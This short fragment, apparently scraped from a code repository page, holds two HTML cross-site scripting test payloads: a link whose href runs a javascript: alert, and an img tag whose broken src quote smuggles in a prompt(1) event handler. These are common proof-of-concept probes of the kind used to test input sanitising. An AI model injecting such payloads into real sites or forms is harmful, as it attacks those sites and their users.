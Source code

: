 # <a href="javascript:alert('XSS Attack!');">Click me</a>
<img src='https://in.pinterest.com/pin/932245191599758496 onchange=prompt(1)></img>

